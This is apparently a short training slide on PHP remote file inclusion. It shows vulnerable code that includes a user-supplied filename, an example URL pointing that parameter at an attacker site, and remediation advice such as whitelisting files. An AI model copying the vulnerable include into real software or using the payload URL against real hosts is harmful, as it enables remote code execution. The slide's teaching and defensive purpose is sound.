

# Essentials
we should look for scripts which take filenames as parameters
$incfile = $_REQUEST["file"];
include($incfile.".php");

http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page

Remediation:
to avoid passing user-submitted input to any filesystem/framework API.
maintain a white list of files
use an identifier (for example the index number) to access to the selected file.